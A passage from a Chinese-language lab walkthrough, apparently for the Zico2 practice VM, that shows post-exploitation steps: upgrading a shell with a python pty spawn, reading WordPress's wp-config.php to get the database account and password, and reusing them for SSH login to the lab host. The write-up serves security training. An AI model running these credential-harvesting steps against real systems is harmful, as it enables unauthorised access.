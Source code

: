 ![image-20220316091549416](https://gitee.com/xxb667/img/raw/master/img/image-20220316091549416.png)

获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220316091749697](https://gitee.com/xxb667/img/raw/master/img/image-20220316091749697.png)



## 4.2-1 返回到根目录



则输入下面的命令

```
cd /
```

![image-20220316094311219](https://gitee.com/xxb667/img/raw/master/img/image-20220316094311219.png)

切换到下面路径

```
cd /home/zico/wordpress
```

```
ls
```

![image-20220316094431238](https://gitee.com/xxb667/img/raw/master/img/image-20220316094431238.png)

打开wp-config.php文件

```
cat wp-config.php
```

得到了账户和密码

```
账户：zico
密码：sWfCsfJSPV9H3AmQzw8
```

![image-20220316094621499](https://gitee.com/xxb667/img/raw/master/img/image-20220316094621499.png)

## 4.3 ssh登录

在kali终端进行登录

```
ssh zico@192.168.81.142
密码为：sWfCsfJSPV9H3AmQzw8
```
